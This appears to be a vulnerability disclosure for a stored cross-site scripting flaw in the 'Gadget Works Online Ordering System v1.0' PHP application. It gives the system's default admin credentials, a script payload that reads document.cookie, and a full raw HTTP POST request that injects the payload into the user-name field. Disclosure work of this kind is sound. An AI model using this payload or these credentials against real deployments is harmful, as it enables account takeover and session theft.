 # Gadget Works Online Ordering System v1.0 has Stored Cross Site Scripting

BUG_Author: heitaoa999

Website source address:https://www.sourcecodester.com/php/13093/gadget-works-online-ordering-system-phpmysqli.html

Vulnerability url: /philosophy/admin/user/controller.php?action=add

POST parameter 'U_NAME' exists Stored Cross Site Scripting

### Steps to reproduce

1. Go to the admin Dashboard

http://localhost/philosophy/admin/login.php

System Admin Access information:

Username: janobe
Password: admin

2. Click on Users and Click on + News and select User

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss1.png)

3. Put Payload into the 'Account Name' parameter.

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss2.png)

Transmission packet

```
POST /philosophy/admin/user/controller.php?action=add HTTP/1.1
Host: localhost
Content-Length: 133
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/user/index.php?view=add
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

deptid=&U_NAME=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&deptid=&U_USERNAME=a&deptid=&U_PASS=b&U_ROLE=Administrator&save=
```

4. Click on Save

5. Payload will trigger when a user visits on http://localhost/philosophy/admin/user/index.php

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss3.png)
